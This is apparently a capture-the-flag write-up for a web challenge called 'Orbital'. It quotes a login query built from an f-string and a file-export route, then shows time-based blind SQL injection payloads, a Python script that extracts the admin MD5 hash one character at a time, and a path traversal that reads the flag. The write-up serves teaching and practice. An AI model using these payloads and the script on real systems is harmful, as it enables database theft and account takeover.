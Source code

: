 # Orbital (easy)

This challenge at first gave us some frustrations due to the ammount of effort that needed to be done to solve it.

looking at the app from outside we can see that there is only a login functionality, so as we did in drobots, we took an instant look at the database handler.

```python
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
```

and again it seems like it is an SQLI but this time it is handled differently. In this challenge the username field is vulnerable to injection but the password is verified in a separate pre-prepared statement. so even if we escaped the first statement the second statement will stand in the way of logging in as the admin user.

in the `entrypoint.sh` file we can see this bash function which is used in the sql statement to create the admin user

```bash 
function genPass() {
    echo -n 'DUMMY_PASSWORD' | md5sum | head -c 32
}
```
it essentially uses the md5 hash of the admin password to store it in the database

in the `util.py` file we can see a function that indicates that the database contains hashed of the passwords 

```python
def passwordVerify(hashPassword, password):
    md5Hash = hashlib.md5(password.encode())
```

so if we could somehow leak the password hash of the admin we will be able to recover the password from the hash due to the cryptographic weaknesses of md5

here we started messing a bit with the sql injection point until we realized we can do something like this:

```json
{"password": "aaa", "username": "admin\" AND SLEEP(5)  AND password LIKE '%';"}
```

the `%` symbol in mysql paired with `LIKE` statement is essentially a wildcard, and since `SLEEP` is a true statement, the server must accepts this whole statement as true and delay the response by % seconds. But due to the `%` sign being a placeholder for format strings in python it made an issue. so we setteled down on using the underscore `_` which maches only one character, but thankfully we know that md5 hashes are 32 bytes long of hex characters. so we can use this statement instead to extract the password hash on character at a time:

```json
{"password": "aaa", "username": "admin\" AND SLEEP(5)  AND password LIKE '________________________________';"}
```

and once we find a character we replace the underscore with that character. The following is a script to exploit the blind SQLI (not perfect and needed some manual monitoring)

```python
import requests
import time
url = "http://161.35.168.118:32062/api/login"
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36", "Content-Type": "application/json", "Accept": "*/*", "Origin": "http://104.248.169.177:31116", "Referer": "http://104.248.169.177:31116/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}


charset = "0123456789abcdef"

password = ""
length = 31 - len(password)
while len(password) < 32:
    error = 0
    for i in charset:
        error = 1
        _json={"password": "aaa", "username": "admin\" AND SLEEP(5)  AND password LIKE '"+ password +i+length*"_" +"';"}
        start_time = time.perf_counter()
        x = requests.post(url, headers=headers, json=_json)
        end_time = time.perf_counter()
        
        if x.status_code != 200 and x.status_code != 403:
            print(x.text)
            quit()
        if end_time - start_time >= 5.0:
            error = 0
            password = password + i
            length -= 1
            print(password)
            print("left: " + str(length + 1))
            break
    if error == 1:
        break
```

after we extracted the password hash we used [this](https://md5.gromweb.com/) service to reverse the hash and extract the password

![hash_to_pass](./images/orbital_md5_crack.png)

so we logged in as the admin but still there is no flag. Here came the second part of the challenge, an SSRF to extract the flag.

in the `routes.py` file we can find this api route that needs authentication (which we already achieved)

```python
@api.route('/export', methods=['POST'])
@isAuthenticated
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
    except:
        return response('Unable to retrieve the communication'), 400
```

it integrates the variable communicationName (which is mapped to the key 'name' that we should send in the JSON request body) directly into the `send_file` function which allows us to read any file by using path traversal.

so we extract the JWT from the page after authenticating as admin

![auth_cookie](./images/orbital_web_panel.png)

then we can send a curl request with the path of the flag file which is renamed according to this Docker command in the `Dockerfile`

```Dockerfile
COPY flag.txt /signal_sleuth_firmware
```

so we initiate the curl command and grab the flag

![sol](./images/orbital_flag.png)

